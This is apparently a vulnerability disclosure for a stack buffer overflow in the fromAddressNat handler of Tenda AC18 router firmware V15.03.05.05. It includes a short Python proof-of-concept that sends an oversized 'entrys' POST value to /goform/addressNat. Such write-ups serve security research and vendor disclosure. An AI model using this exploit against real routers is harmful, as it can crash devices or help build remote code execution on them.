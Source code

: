 ## Overview

- The device's official website: https://www.tenda.com.cn/product/overview/AC18.html

- Firmware download website: https://www.tenda.com.cn/download/detail-2610.html

## Affected version

V15.03.05.05

## Vulnerability details

The Tenda AC18 V15.03.05.05 firmware has a stack overflow vulnerability in the `fromAddressNat` function. The `v9` variable receives the `entrys` parameter from a POST request. The value is directly used in a `sprintf` function and passes to a local variable on the stack, which can override the return address of the function. The user-provided `entrys` can trigger this security vulnerability.

![image-20240305210536503](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305210536503.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/addressNat"
payload = b"a"*1000

data = {"entrys": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240305210435303](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305210435303.png)
